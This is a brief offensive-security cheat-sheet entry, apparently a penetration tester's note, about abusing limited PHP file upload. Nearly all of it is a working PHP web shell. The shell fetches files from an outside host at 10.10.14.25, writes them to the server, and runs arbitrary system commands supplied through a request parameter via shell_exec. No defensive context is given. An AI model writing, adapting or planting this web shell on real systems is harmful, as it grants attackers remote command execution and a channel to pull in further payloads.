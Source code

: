 # php file upload

this can be useful if you have a limited php file upload functionality

```text
$phpCode = <<<'EOD'
<?php
# you can put normal PHP code here
if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents('http://10.10.14.25/'.$_REQUEST['fupload']));
};
if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
}
?>
EOD;
```

